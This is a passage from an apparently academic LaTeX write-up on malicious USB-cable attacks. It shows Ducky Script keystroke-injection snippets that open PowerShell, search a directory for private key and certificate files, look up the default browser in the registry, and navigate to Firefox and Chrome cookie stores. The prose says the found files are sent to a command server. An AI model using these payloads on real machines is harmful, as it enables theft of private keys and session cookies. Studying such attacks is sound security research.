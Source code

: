 File extensions can be searched with the help of PowerShell. For that reason, this extraction payload will run a simple loop on a predefined (default) path to a directory that is expected to contain private key files and send the discovered files to a command server. 

\begin{lstlisting}[caption={Exceprt: search for private key files by their file extension}, captionpos=b]
DUCKY_LANG DE_CH
DELAY 50
GUI r
DELAY 200
STRINGLN powershell.exe
DELAY 2500
STRINGLN $entryPoint = "your/path"
DELAY 200
STRINGLN $extensions = @(".key", ".pgp", ".gpg", ".ppk", ".p12", ".pem", ".pfx", ".cer", ".p7b", ".asc")
DELAY 200
STRINGLN Get-ChildItem -Path $entryPoint -Recurse | ForEach-Object {
DELAY 200
STRINGLN     if ($_.PSIsContainer) {
DELAY 200
STRINGLN         return
DELAY 200
STRINGLN     }
DELAY 200
STRINGLN     if ($extensions -contains $_.Extension) {
DELAY 200
\end{lstlisting}


\subsubsection{Steal Web Session Cookies}

A client's default browser can be extracted via PowerShell using only one line:
\begin{lstlisting}[caption={Exceprt: Find a target's default browser}, captionpos=b]
STRINGLN Get-ItemProperty -Path 'HKCU: Software\Microsoft\Windows\Shell\Associations\UrlAssociations\http\UserChoice' | Select-Object -ExpandProperty ProgId
\end{lstlisting}

After that information is sent back to the attacker, they can connect to the cable and remotely trigger the appropriate attack. For example, if the victim's default browser is Firefox, they could start a terminal, navigate to the default directory for Firefox cookies and extract that file.

\begin{lstlisting}[caption={move into the directory for Firefox cookies}, captionpos=b]
STRINGLN cd "C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\umva4gfp.default-release\cookies.sqlite"
\end{lstlisting}

The same approach can be used for Chrome, the difference is in the file path.

\begin{lstlisting}[caption={move into the directory for Chrome cookies}, captionpos=b]
STRINGLN cd "C:\Users\maaik\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies"
\end{lstlisting}

